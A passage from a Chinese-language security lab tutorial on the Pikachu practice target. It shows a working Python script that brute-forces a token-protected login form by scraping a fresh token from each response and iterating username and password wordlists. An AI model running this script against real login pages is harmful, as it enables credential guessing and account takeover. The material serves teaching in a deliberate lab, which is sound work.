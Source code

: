 除了使用bp来解决token防爆破的漏洞，但是有的网站获取token比较难，那么也可使用自定义的python脚本来解决这类问题。

python脚本如下

```python
import requests
import re

purl = "http://127.0.0.1/pikachu/vul/burteforce/bf_token.php"  #这里需要修改
user_token = "27536628ca8f3b0818871451285"
proxy = {'http':'127.0.0.1:8080'}     #可以集合bp看看发送的报文
header = {
     'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0',
     'Cookie': 'PHPSESSID=17u0i2fakm84eq9oc24boc8715'}

def token(response):
    user_token = re.findall('value=".*."', response)[0][7:-1]  #根据正则表达式取出token
    return user_token

def uandp(user_token):
    f = open('result.csv', 'w')     #把爆破结果储存到文件里，这里为csv格式
    f.write('用户名' + ',' + '密码' + ',' + '包长度' + '\n') #给文件设置标题
    sum = len(open("p.txt").readlines())*len(open("u.txt").readlines()) #密码本的总数量，最后得出进度
    dan = 0 #dan变量是用于查看进度用的
    for u in open("u.txt") : #先查看用户本
        for p in open("p.txt") : #查看密码本，根据这个密码本进行爆破
            u = u.replace("\n","")   #过滤掉回车符
            p = p.replace("\n","")
            session = requests.session()    #会话保持
            data= {'username':u,'password':p,'token':user_token,'submit':'Login'} #初始数据
            response = session.post(purl,data=data,headers=header).text
            user_token = token(response)
            result = u + ',' + p + ',' + str(len(response))    #用户名密码以及响应包长度
            f.write(result + '\n')  #输出到文件
            dan = dan + 1
            print("进度:"+str(dan)+'/'+str(sum))           #输出到终端
            # print(response)
    f.close()

if __name__ == '__main__':
    uandp(user_token)

```

运行该脚本后，得到一个csv文件，查看这个csv文件。

![image-20240905191806781](逻辑漏洞实战/image-20240905191806781.png)	
